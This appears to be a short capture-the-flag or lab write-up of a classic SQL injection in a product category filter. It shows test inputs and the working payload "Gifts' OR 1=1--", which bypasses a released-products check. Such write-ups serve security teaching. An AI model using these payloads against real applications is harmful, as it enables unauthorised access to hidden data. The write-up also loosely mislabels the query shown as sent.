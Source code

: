 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Goal:
`Cause the application to display one or more unreleased products`

### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The backend query is:
`SELECT * FROM products WHERE category = '<input>' AND released = 1`
<br><br><br>

**<ins>Step 1: Test injection point</ins>**

category=Gifts'

`500: server error`<br><br>

category=Gifts'--

`200`

This indicates the existence of an SQL misconfiguration.
<br><br>

**<ins>Step 2: Exploit the vulnerability</ins>**

category=Gifts' OR 1=1--

`Success!`<br><br>

This request sends the server this query:

`category=Gifts' OR 1=1`

This will show us all products where the category is Gifts OR where 1=1. 1=1 is always true, so we will see all products in the database.